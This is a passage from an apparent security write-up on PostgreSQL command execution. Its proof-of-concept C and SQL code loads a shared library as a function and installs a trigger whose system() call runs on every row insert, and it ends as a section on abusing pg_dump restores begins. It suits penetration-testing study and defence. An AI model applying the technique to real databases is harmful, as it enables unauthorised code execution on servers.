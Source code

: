 ```sql
CREATE FUNCTION poc() RETURNS int as '/tmp/poc', 'pgfunc' LANGUAGE 'c' STRICT;
SELECT poc();
```

## Arbitrary command execution - trigger functions

Trigger functions can be assigned to tables with the [CREATE TRIGGER](https://www.postgresql.org/docs/9.1/sql-createtrigger.html) command.
The function can be set to execute before or after various events.

```c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"
#include "commands/trigger.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

extern Datum pgtrigger(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(pgtrigger);

Datum
pgtrigger(PG_FUNCTION_ARGS) {
    TriggerData *trigger_data = (TriggerData *) fcinfo->context;

    system("touch /tmp/trigger_code_execution");

    return PointerGetDatum(trigger_data->tg_trigtuple);
}
```

In this example the `pgtrigger` function will be executed before every row insertion on the `dump` table.

```sql
CREATE TABLE dump (t TEXT);

CREATE FUNCTION poc() RETURNS TRIGGER AS '/tmp/trigger_poc', 'pgtrigger' LANGUAGE 'c' STRICT;

CREATE TRIGGER poc BEFORE INSERT ON dump FOR EACH ROW EXECUTE FUNCTION poc();

INSERT INTO dump (t) VALUES ('random');
```

# Exploiting PostgreSQL restore

Postgres archives can be created with `pg_dump` and the `-Fc` flag.

```bash
$ pg_dump -U postgres -Fc
```

